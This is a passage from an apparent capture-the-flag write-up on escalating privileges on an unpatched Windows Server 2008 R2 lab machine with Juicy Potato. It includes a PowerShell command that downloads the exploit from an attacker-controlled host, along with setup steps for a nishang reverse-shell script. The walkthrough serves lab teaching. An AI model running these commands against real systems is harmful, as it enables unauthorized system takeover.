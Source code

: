```text
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,577 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,586 MB
Virtual Memory: In Use:    509 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

It’s running Microsoft Server 2008 R2 and does not have any hot fixes installed, so it’s likely vulnerable to a bunch of kernel exploits. However, before we go down this route, let’s first check the system privileges that are enabled for this user.

![](https://miro.medium.com/max/1023/1*GCpu5p5ov5sHO44q8cgzAw.png)

_SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.

![](https://miro.medium.com/max/971/1*iiNs88XZklfmeYGSZIGwxQ.png)

It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```
